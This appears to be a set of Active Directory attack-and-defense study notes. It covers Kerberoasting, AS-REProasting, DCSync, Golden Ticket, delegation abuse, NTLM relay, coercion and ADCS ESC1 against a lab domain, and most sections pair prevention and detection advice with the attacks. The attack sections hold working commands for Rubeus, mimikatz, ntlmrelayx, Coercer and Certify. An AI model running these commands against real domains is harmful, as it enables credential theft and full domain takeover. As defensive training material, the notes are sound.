









# Windows Attacks & Defense

## Kerberoasting

### Attack path

1. Find user accounts used as Service accounts (powerview)

```
Get-NetUser -SPN
```

<figure><figcaption></figcaption></figure>

2. extract tickets for every user that has an SPN

```powershell
Rubeus.exe kerberoast /outfile:hashes.txt
```

<figure><figcaption></figcaption></figure>

3. output

<figure><figcaption></figcaption></figure>

4. use `hashcat` with the hash-mode (option `-m`) `13100` for a `Kerberoastable TGS`.

```
hashcat -m 13100 -a 0 asrep.txt rockyou.txt
```

<figure><figcaption></figcaption></figure>

### Prevention

1. **Use strong passwords for service accounts**\
   Service account passwords should be long (100+ random characters) to make cracking practically impossible.
2. **Prefer Group Managed Service Accounts (gMSA)**\
   gMSAs automatically rotate strong passwords, are bound to specific servers, and greatly reduce credential abuse risk.
3. **Limit and maintain SPNs**\
   Only assign SPNs when necessary, and regularly clean up unused or invalid SPNs

### Detection

1. **Monitor Event ID 4769 with context**\
   Alert on RC4-encrypted tickets and on abnormal volumes of 4769 events grouped by requester and source IP within a short time window.
2. **Detect ticket harvesting behavior**\
   Tools like Rubeus request multiple service tickets rapidly, so alert when a user or host requests many TGS tickets in a short period.
3. **Use a honeypot service account**\
   Create an old, privileged, SPN-enabled fake service account; any ticket request for it is highly suspicious and should trigger an aler

***

## AS-REProasting

* we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled.

### Attack path

1. numerating accounts with Kerberos Preauth disabled

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

2. Request encrypted AS‑REP

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```

<figure><figcaption></figcaption></figure>

3. cracked TGT ticket

```shellscript
sudo hashcat -m 18200 -a 0 asrep.txt rockyou.txt 
```

<figure><figcaption></figcaption></figure>

### Prevention

1. **Only enable "Do not require Kerberos preauthentication" when absolutely necessary** and review such accounts regularly
2. Apply a strong password policy

### Detection

1. **Monitor Event ID 4768 with context**: Alert when Pre-Authentication Type = 0 and Ticket Encryption Type = RC4, especially from unusual IPs
2. **Use a well-designed honeypot user**: An old, legitimate-looking account with privileges and realistic password history

***

## GPP Passwords

### Attack path

```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

<figure><figcaption></figcaption></figure>

### Prevention

* **Apply Patch KB2962486** (2014) to prevent storing new credentials in Group Policy Preferences (GPP).
* **Continuously audit SYSVOL** to ensure no old credentials are still cached, especially in environments built before 2014

### Detection

* **Monitor access to GPP XML files in SYSVOL**\
  Alert on Event ID **4663** when XML files containing `cpassword` are read, especially for honeypot XML files.

Access Request Information: Accesses: ReadAttributes Access Mask: 0x80

* **Monitor logon attempts for exposed accounts**\
  Track Event IDs **4624, 4625, 4768, 4771, 4776** for any authentication attempts using accounts found in GPP.
* **Correlate source device**\
  Service account logons from workstations are highly suspicious.
* **Use a honeypot service account**\
  Any failed or successful logon attempt for this account should be treated as malicious

***

## Credentials in Shares

### Attack path

```powershell
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```

<figure><figcaption></figcaption></figure>

* Search for any string (password, cred,username)

```
findstr /m /s /i "pass" *.bat
findstr /m /s /i "pass" *.cmd
findstr /m /s /i "pass" *.ini
findstr /m /s /i "pass" *.config
findstr /m /s /i "pw" *.config
findstr /s /i "pw" *.config
findstr /m /s /i "administrator" *.*
```

### Detection

* **User behavior analysis:** Alert on abnormal logons (Event IDs **4624, 4625, 4768**) such as privileged accounts authenticating from unusual IPs or devices.
* **Unusual network activity:** Detect one-to-many connections, e.g., a workstation suddenly accessing hundreds or thousands of network shares

***

## Credentials in Object Properties

### Attack path

* A simple PowerShell script can query the entire domain by looking for specific search terms/strings in the `Description` or `Info` fields

```powershell
Get-ADUser -Filter * -Properties * | select Name,SamAccount,Description
```

```powershell
Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}

```

* We will run the script to hunt for the string `pass`

```powershell
SearchUserClearTextInformation -Terms "pass"
```

<figure><figcaption></figcaption></figure>

### Prevention

* `Perform` `continuous assessments` to detect the problem of storing credentials in properties of objects.
* `Educate` employees with high privileges to avoid storing credentials in properties of objects.
* `Automate` as much as possible of the user creation process to ensure that administrators don't handle the accounts manually

### Detection

***

## DCSync

<figure><figcaption></figcaption></figure>

### Attack path

```
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator
```

<figure><figcaption></figcaption></figure>

### Prevention

* DCSync cannot be prevented natively in Active Directory because it relies on legitimate replication functionality.
* The effective prevention method is using an RPC Firewall to restrict replication RPC calls to Domain Controllers only.

### Detection

* Monitor **Event ID 4662** and alert when the requesting account is **not a Domain Controller**, especially if replication-related GUIDs\
  `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` appear.
* Task Category : Directory Service Access
* Reduce false positives by **whitelisting legitimate replication accounts/systems** such as **Azure AD Connect**

***

## Golden Ticket

### Attack path

1. DcSync To Dump krbtgt hash

```
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

<figure><figcaption></figcaption></figure>

2. create TGS ticket and inject to session&#x20;

```cmd
kerberos::golden /domain:eagle.local 
/sid:S-1-5-21-1518138621-4282902758-752445584 
/rc4:db0d0630064747072a7da3f7c3b4069e 
/user:Administrator 
/id:500 
/renewmax:7 
/endin:8 
/ptt
```

<figure><figcaption></figcaption></figure>

3. Boom Domain admin

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Prevention

* Prevent privileged users from logging into non-secure devices.
* Regularly reset the krbtgt account password using Microsoft’s official script to invalidate forged tickets.
* Enforce SIDHistory filtering between domains to prevent cross-domain privilege escalation

### Detection

* Golden Tickets cannot be directly detected because they look like valid Kerberos tickets, so detection relies on **user behavior analysis**, especially abnormal logon locations, devices, or times (Event IDs 4624, 4625).
* Domain Controllers do not log the ticket creation, only its usage. A forged ticket appears as a normal successful logon.
* A possible indicator is a **TGS request (4769) without a prior TGT request (4768)**, but this is hard to use due to high event volume.
* If **SID filtering** is enabled, cross‑domain abuse will trigger **Event ID 4675**.
* After a full AD compromise, the **krbtgt password must be reset twice**, with enough time between resets, to invalidate all forged tickets.

***

## Kerberos Constrained Delegation

**(protocol transmit Constrained delegation)**

### Attack path

1. enumera  `constrained delegation`  account

<figure><figcaption></figcaption></figure>

2. convert password service to NTLM hash

```
.\Rubeus.exe hash /password:Slavi123
```

3. use `Rubeus` to get a ticket for the `Administrator` account&#x20;

```
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

<figure><figcaption></figcaption></figure>

4. lateralmovment to Dc1

```
Enter-PSSession dc1
```

### Prevention

* Enable **Account is sensitive and cannot be delegated** for privileged users.
* Add privileged users to the **Protected Users** group (after impact assessment).
* Treat any delegation-enabled account as highly privileged.
* Use strong passwords to prevent Kerberoasting of delegation accounts

### Detection

* Use behavioral correlation to detect abnormal logon patterns.
* Monitor Event ID **4624** for privileged account logons.
* Enforce Privileged Access Workstations (PAWs).
* Check **Transited Services** field to identify S4U-based logons.
* S4U logons indicate Kerberos delegation usage

## Print Spooler & NTLM Relaying

### Attack path

1. configure `NTLMRelayx` to forward any connections to DC2 and attempt to perform the DCSync attack

```
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

<figure><figcaption></figcaption></figure>

2. trigger the `PrinterBug` using the Kali box with `NTLMRelayx` listening

```
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

<figure><figcaption></figcaption></figure>

### Prevention

* Disable the Print Spooler service on all non-printing servers, especially Domain Controllers, to reduce the AD attack surface and prevent forced authentication attacks.
* Alternatively, set `RegisterSpoolerRemoteRpcEndPoint = 2` to block remote RPC access to the Print Spooler, effectively mitigating PrinterBug exploitation while keeping the service locally enabled

### Detection

* NTLM relay via PrinterBug is detected by identifying **successful logons of DC accounts (Event 4624) coming from unexpected IP addresses**.
* Effective detection requires correlating **core server logons with their known static IP addresses** to identify impersonation attempts

<figure><figcaption></figcaption></figure>

***

## Coercing Attacks & Unconstrained Delegation

### Attack path

1. identify systems configured for `Unconstrained Delegation`

```
Get-NetComputer -Unconstrained
```

<figure><figcaption></figcaption></figure>

2. monitor lsass for capture Force Authentication

```
.\Rubeus.exe monitor /interval:1
```

3. Force Authentication by coercer

```
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

<figure><figcaption></figcaption></figure>

4. DC Authenticate with my machine and Rubeus get the tgt  as a Base64Encoded

<figure><figcaption></figcaption></figure>

5. inject TGT in the session

```
.\Rubeus.exe ptt /ticket:<Base64EncodedTicket>   ##No space
```

6. DcSync Attack

```
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

### Prevention

* Since Windows lacks granular RPC control, prevention relies on either using an RPC firewall to block dangerous RPC functions or auditing their usage.
* Blocking outbound SMB traffic (ports 139/445) from Domain Controllers and core servers—except for required systems—effectively mitigates current and future coercion attacks

### Detection

* RPC coercion attacks can be detected by monitoring firewall logs for repeated inbound SMB connections followed by outbound connections from the Domain Controller to attacker IPs on ports 445 or 139.
* Blocking outbound ports 445 and 139 prevents the coerced authentication from reaching the attacker and effectively breaks the attack chain

***

## Object ACLs

### Attack path

1. Run SharpHound to scan the Environment&#x20;

```
.\SharpHound.exe -c All
```

2. we will use [BloodHound](https://github.com/BloodHoundAD/BloodHound) to graph the relationships between the objects

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* User BOB have GeericALL for user anni and sirver01
* We can also use [ADACLScanner](https://github.com/canix1/ADACLScanner) to create reports of `discretionary access control lists` (`DACLs`) and `system access control lists` (`SACLs`)

### Prevention

* Perform continuous assessment of AD ACLs to identify dangerous permissions.
* Educate privileged users about the risks of improper delegation and ACL misconfiguration.
* Automate access management and assign privileges only to dedicated administrative accounts

### Detection

* AD object modifications generate security events, but with limited detail.
* Event 4738 logs user object changes but does not show which attributes were modified.
* Event 4724 indicates a password reset attempt.
* Event 4742 logs computer object modifications.
* Behavioral analysis is required to detect suspicious modifications by non‑privileged users

***

## PKI - ESC1

### Attack Path

1. scan the environment for vulnerabilities in the PKI infrastructure

```
.\Certify.exe find /vulnerable
```

<figure><figcaption></figcaption></figure>

* Template Name : UserCert
* CA : PKI.eagle.local\eagle-PKI-CA

2. abuse the template for administrator user

```
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

<figure><figcaption></figcaption></figure>

3. put private key and certificate in cert.pem and convert to cert.pfx

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

<figure><figcaption></figcaption></figure>

4. request a Kerberos TGT for the account `Administrator`

```
\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
